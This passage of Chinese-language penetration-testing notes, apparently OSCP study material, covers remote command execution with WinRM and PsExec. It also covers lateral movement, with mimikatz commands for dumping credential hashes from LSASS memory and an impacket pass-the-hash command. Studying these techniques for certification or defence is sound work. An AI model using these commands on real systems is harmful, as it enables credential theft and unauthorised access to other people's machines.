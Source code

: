 



### WINRM

端口：5985、5986

平时如果用wmic远程连接可以成功，就不需要用到winrm，如果wmic不能用，可以看看5985、5986端口有没有开

windows默认winrm没启动

```powershell
# 管理员权限
Enable-PSRemoting -force
netstat -ano # 看看端口起了没

winrs -r:user1 "cmd /c hostname & whoami"
# 非域环境
winrs -r:user1 -u:oscp\alice -p:Password "cmd /c ipconfig"

# 使用powershell调用winrm
New-PSSession -ComputerName user1
Enter-PSSession 1
```



### PsExec

```powershell
.\PsExec64.exe -i \\user1 cmd
```





## 横向渗透

### PTH

机器上存在高权限的本地账号会话的话，密码的hash会缓存在机器的lssas内存中

```powershell
mimikatz.exe 
privilege::debug
sekurlsa:logonpassword
```

```shell
# kali

impacket-wmiexec -hashes :hash administrator@10.0.2.92
```



### Over PTH
